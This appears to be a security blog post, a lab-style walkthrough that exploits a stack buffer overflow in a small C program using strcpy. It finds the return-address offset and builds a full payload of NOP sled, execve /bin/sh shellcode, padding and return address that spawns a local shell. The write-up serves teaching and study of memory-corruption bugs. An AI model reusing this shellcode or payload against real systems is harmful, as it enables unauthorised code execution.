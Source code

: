 ```yaml
---
author: NotCare
pubDatetime: 2021-09-28T05:14:00Z
title: Spawn a shell (part 2)
postSlug: spawn-a-shell
featured: false
draft: false
tags:
  - research
  - code
ogImage: ""
description: Let's spawn a shell with strcpy()
---
```


## Overview

Following is a program demonstrating string copy function in c which is unsafe and we'll see how can we exploit it.

## Code

```c
  1 #include <stdio.h>
  2 #include <string.h>
  3
  4 void func(char *name)
  5 {
  6     char buf[100];
  7     strcpy(buf, name);
  8     printf("Welcome %s\n", buf);
  9 }
 10
 11 int main(int argc, char *argv[])
 12 {
 13    func(argv[1]);
 14    return 0;
 15 }
```

## Challenge:

Spawn a shell by overflowing `buf`.

## Approach:

Lets understand some of the new terms thats being used ahead.

- NOP sled: aka "no operation" is a machine instruction that does nothing and go ahead, so a NOP sled would be a huge operation of basically nothing :D
- shellcode: these are assembly instructions used for various puposes like spawning a shell or reverse listener

here's a brief overview of what we're going to do:
Fill the buffer with NOP sleds + shellcode for `/bin/sh` + overwrite the eip with address of somewhere in NOP sled.

## Reconn:

Lets find out the offset, we'll do metasploit just like before.
![patterncreate](/assets/spawn/patterncreate200.png)
lets run it
![patterncreate](/assets/spawn/pattern200exec.png)
we get a segfault, copy the address and query pattern_offset
![patterncreate](/assets/spawn/patternfound112.png)
We get a match at 112, that means 113th is where our eip starts.

with all that in our hands, lets go back and recall the brief overview as qouted `overwrite the eip with address of somewhere in NOP sled`, whats that? why though?
okay so basically, by pointing our eip to an address somewhere in NOP will eventually lead it our shellcode which in turns spawns the shell. That's what we're here for right?
Last thing, lets pick an address
![patterncreate](/assets/spawn/addresspick.png)
I've picked `0xffffcf40` but we need that in reverse (little endian my guy :D) so thats going to be uhhh `\x40\xcf\xff\xff`
we have everything we need, now its time to put it all together.

## Exploit:

quick maths for the exploit:
so our shellcode is of `25` bytes, I've chosen NOP sleds to be of length `67` that gives us `25 + 67 = 92` we need `20` more, lets fill them with `\x42`.

`25 + 67 + 20 = 112`, now we need 4 bytes that will be our address
payload:

```markdown
run $(python -c 'print "\x90"*67 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x42\x42\x42\x42"*5 + "\x40\xcf\xff\xff"')
```

lets run it

![patterncreate](/assets/spawn/spawnshell.png)
lets gooooo, we get a shell here!<br>
Thanks for reading!
